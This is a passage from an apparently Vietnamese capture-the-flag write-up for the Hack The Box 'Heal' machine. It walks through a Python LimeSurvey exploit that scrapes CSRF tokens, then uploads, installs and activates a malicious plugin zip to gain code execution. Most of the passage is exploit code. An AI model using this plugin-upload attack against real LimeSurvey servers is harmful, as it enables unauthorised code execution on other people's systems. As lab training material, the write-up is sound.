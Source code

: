 Lấy CSRF token thứ 3 từ trang cài đặt plugin và gửi yêu cầu POST để cài đặt plugin vừa tải lên.

```python
InstallPage = req.get(url+"/index.php/admin/pluginmanager?sa=installUploadedPlugin")
response = InstallPage.text
s = BeautifulSoup(response, 'html.parser')
CSRF_token3 = s.findAll('input')[0].get("value")
print(CSRF_token3)
Install_creds = {
    "YII_CSRF_TOKEN": CSRF_token3,
    "isUpdate": "false"
}
file_install = req.post(url+"/index.php/admin/pluginmanager?sa=installUploadedPlugin", data=Install_creds)
print("[+] Plugin Installed Successfully")
```

Lấy CSRF thứ 4 từ trang kích hoạt plugin và kích hoạt nó với pluginId=1.

```python
ActivatePage = req.get(url+"/index.php/admin/pluginmanager?sa=activate")
response = ActivatePage.text
s = BeautifulSoup(response, 'html.parser')
CSRF_token4 = s.findAll('input')[0].get("value")
print(CSRF_token4)
Activate_creds = {
    "YII_CSRF_TOKEN": CSRF_token4,
    "pluginId": "1"  # CHANGE THIS
}
file_activate = req.post(url+"/index.php/admin/pluginmanager?sa=activate", data=Activate_creds)
print("[+] Plugin Activated Successfully")
```

Lưu ý, cần thay đổi đường dẫn chứa file Y1LD1R1M.zip cho đúng thì mới có thể tải lên thành công.

```python
filehandle = open("/root/limesurvey/plugin/Y1LD1R1M.zip", mode="rb")  # CHANGE THIS
UploadPage = req.get(url+"/index.php/admin/pluginmanager/sa/index")
response = UploadPage.text
s = BeautifulSoup(response, 'html.parser')
CSRF_token2 = s.findAll('input')[0].get("value")
print(CSRF_token2)
```

Thay đổi đường dẫn file đến file zip 

```bash
┌──(neo㉿fs0c13ty)-[~/htb/machines/heal/Limesurvey-RCE]
└─$ pwd Y1LD1R1M.zip
/home/neo/htb/machines/heal/Limesurvey-RCE

┌──(neo㉿fs0c13ty)-[~/htb/machines/heal/Limesurvey-RCE]
└─$ /home/neo/htb/machines/heal/Limesurvey-RCE/Y1LD1R1M.zip
```

```python
filehandle = open("/home/neo/htb/machines/heal/Limesurvey-RCE/Y1LD1R1M.zip", mode="rb")  # CHANGE THIS
UploadPage = req.get(url+"/index.php/admin/pluginmanager/sa/index")
response = UploadPage.text
s = BeautifulSoup(response, 'html.parser')
CSRF_token2 = s.findAll('input')[0].get("value")
print(CSRF_token2)
```
